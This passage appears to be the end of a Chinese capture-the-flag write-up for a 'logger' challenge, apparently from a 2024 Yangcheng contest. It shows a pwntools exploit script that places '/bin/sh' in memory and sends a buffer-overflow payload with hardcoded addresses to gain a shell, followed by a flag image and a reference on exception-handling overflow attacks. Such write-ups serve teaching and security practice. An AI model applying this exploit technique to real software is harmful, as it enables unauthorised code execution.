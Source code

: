 ```python
    def trace(tosend: bytes):
        sh.sendlineafter(b'****************', b'1')
        sh.sendafter(b'details', tosend)
        sh.sendlineafter(b'check', b'n')

    def warn(tosend: bytes):
        sh.sendlineafter(b'****************', b'2')
        sh.sendafter(b'message', tosend)

    for _ in range(7):
        trace(b'skip')
    trace(b'fillfillfillfill') # clear 'B' in "Buffer Overflow"
    trace(b'/bin/sh'.ljust(0xf, b'\0'))
    warn(b'0'*0x70 + p64(0x404800) + p64(0x401bc3))

    sh.clean()
    sh.interactive()
```

{% note default fa-flag %}
![flag](/assets/yangcheng2024/loggerFlag.png)
{% endnote %}

## 参考

[溢出漏洞在异常处理中的攻击利用手法-上](https://xz.aliyun.com/t/12967)
